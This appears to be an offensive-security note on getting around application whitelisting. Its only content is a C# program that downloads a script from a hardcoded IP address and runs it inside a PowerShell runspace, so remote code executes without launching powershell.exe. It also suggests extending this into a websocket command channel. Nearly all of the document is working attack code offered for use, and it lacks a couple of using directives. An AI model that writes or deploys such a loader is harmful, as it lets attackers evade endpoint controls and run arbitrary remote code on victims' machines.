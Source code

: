 # Application Whitelisting Bypasses
---

### PowerShell Runspace
This will allow you to execute the contents of a remote file in a PowerShell runspace. This could be improved by creating a websocket server/client to execute commands within the runspace. 
```cs
using System;
using System.Net;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace ConsoleApp3
{
    public class Program
    {
        public static void Main(string[] args)
        {
            WebClient client = new WebClient();
            var myString = client.DownloadString("http://10.54.3.85/string.txt");
            Console.WriteLine("Command to be executed: " + myString);
            

            Runspace runspace = RunspaceFactory.CreateRunspace();

            runspace.Open();

            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(myString);
            pipeline.Commands.Add("Out-String");

            Collection<PSObject> results = pipeline.Invoke();

            runspace.Close();

            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
            {
                Console.WriteLine(obj.ToString());
            }
        }
    }
}
```
